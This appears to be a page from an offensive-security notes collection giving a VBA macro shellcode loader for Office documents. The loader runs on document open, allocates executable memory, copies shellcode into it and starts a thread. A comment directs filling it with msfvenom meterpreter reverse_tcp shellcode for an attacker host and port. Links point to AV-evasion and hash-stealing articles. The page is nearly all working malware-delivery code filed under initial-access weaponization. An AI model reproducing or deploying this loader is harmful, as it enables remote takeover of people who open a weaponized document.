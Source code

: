 # VBA

```vb
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As LongPtr, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As Long, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Destination As Long, ByRef Source As Any, ByVal Length As Long) As Long
#EndIf

Sub Auto_Open()
        Dim myByte As Long, myArray As Variant, offset As Long
#If Vba7 Then
        Dim rwxpage As LongPtr, res As LongPtr
#Else
        Dim rwxpage As Long, res As Long
#EndIf
        ' Replace this shellcode with:
        ' msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f vba
        myArray = Array()

        rwxpage = VirtualAlloc(0, UBound(myArray), &H1000, &H40)
        For offset = LBound(myArray) To UBound(myArray)
                myByte = myArray(offset)
                res = RtlMoveMemory(rwxpage + offset, myByte, 1)
        Next offset
        res = CreateThread(0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### San3ncrypt3d

- [San3ncrypt3d: Running ShellCode in Memory | AV Evasion – VBA Version](https://san3ncrypt3d.com/2021/08/13/VBAShell/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)